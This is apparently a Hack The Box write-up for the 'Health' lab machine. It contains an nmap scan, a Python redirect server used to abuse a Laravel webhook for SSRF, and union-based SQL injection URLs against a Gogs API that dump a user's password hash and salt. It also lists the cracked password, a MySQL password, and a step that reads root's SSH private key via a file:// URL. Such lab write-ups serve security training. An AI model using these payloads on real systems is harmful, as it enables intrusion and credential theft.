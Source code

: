 Hack The Box :Health

Initial enumeration
Nmap scan

```bash
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 32:b7:f4:d4:2f:45:d3:30:ee:12:3b:03:67:bb:e6:31 (RSA)
|   256 86:e1:5d:8c:29:39:ac:d7:e8:15:e6:49:e2:35:ed:0c (ECDSA)
|_  256 ef:6b:ad:64:d5:e4:5b:3e:66:79:49:f4:ec:4c:23:9f (ED25519)
80/tcp   open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HTTP Monitoring Tool
3000/tcp filtered ppp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2 usual open ports and one filltered port 3000

Accessing port 80 through browser it is an php larveral web application and it has a function called webhook
let's find more about webhook
**Webhooks are generally automated calls made from one application to another, triggered whenever a specific event occurs
a.k.a "user generatered callbacks"**

Now the attack time. The attack surface is "SSRF"

webhook ssrf referance [link](https://www.youtube.com/watch?v=xF2XUKtYaTg&list=LL) 

redirect.py
```python
#!/usr/bin/env python3

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("""
Usage: {} <port_number> <url>
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

sqli

union based injection

27 columns
```
sudo python3 redirect.py 80 "http://localhost:3000/api/v1/users/search?q=')/**/ORDER/**/BY/**/27--"
```

enumerating sql databases,tables,columns

we aleady know this is a opensource web app so we can read the source code from git rep of [gogs git](https://github.com/gogs/gogs) from git repo [https://github.com/gogs/gogs/tree/main/internal/db](https://github.com/gogs/gogs/tree/main/internal/db)

username

```
 sudo python3 redirect.py 80 "http://localhost:3000/api/v1/users/search?q=')/**/UNION/**/ALL/**/SELECT/**/1,10,(SELECT/**/name/**/from/**/user),4,12,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--" 
 ```
username : susanne
```
sudo python3 redirect.py 80 "http://localhost:3000/api/v1/users/search?q=')/**/UNION/**/ALL/**/SELECT/**/1,10,(SELECT/**/passwd/**/from/**/user),4,12,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--"
```
passwd : 66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37cd

```
sudo python3 redirect.py 80 "http://localhost:3000/api/v1/users/search?q=')/**/UNION/**/ALL/**/SELECT/**/1,10,(SELECT/**/salt/**/from/**/user),4,12,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--"
```
salt : sO3XIbeW14

cracked the hash using hashcat

sha256:10000:c08zWEliZVcxNA:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=:february15

user as susanne 

privilege escalation

acccess mysql user as laravel and passwd MYsql_strongestpass@2014+

mysql laravel --execute TRUNCATE tasks 

UPDATE tasks SET monitoredUrl = 'file:///root/.ssh/id_rsa';
